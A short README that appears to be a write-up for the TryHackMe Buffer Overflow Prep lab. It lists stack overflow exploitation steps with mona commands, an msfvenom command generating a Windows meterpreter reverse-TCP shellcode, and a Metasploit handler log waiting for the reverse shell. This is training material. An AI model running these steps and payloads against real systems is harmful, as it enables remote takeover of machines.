 
# Buffer Overflow Prep

Write up for TryHackMe BOF Prep


## Steps:

- Fuzzing
- Pattern create using "msf-pattern_create -l <fuzzed value>"
- Setup working dir for mona - !mona config -set workingfolder c:\monalogs\%p
- Find offset - !mona findmsp -distance <fuzzed value>
- Overwrite ESP using 4 Bs
- Find bad chars - !mona bytearray -b "\x00"
- Copy chars and add value to payload
- Compare bad chars to bytearray - !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>
- Redo bytearray and compare unti result is unmodified
- Find jmp address - !mona jmp -r esp -cpb  "\x00""
- Use jmp address as retn/esp_overwrite
- Create payload - msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b '\x00\x23\x3c\x83\xba' EXITFUNC=thread -f c
- Add nops/padding "\x90"
- Replace bytearrays with shell code in payload var
- Create listener in msfconsole:
```bash
    msf6 > use exploit/multi/handler 
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost 192.168.1.100
    lhost => 192.168.203.180
    msf6 exploit(multi/handler) > set lport 4444
    lport => 4444
    msf6 exploit(multi/handler) > run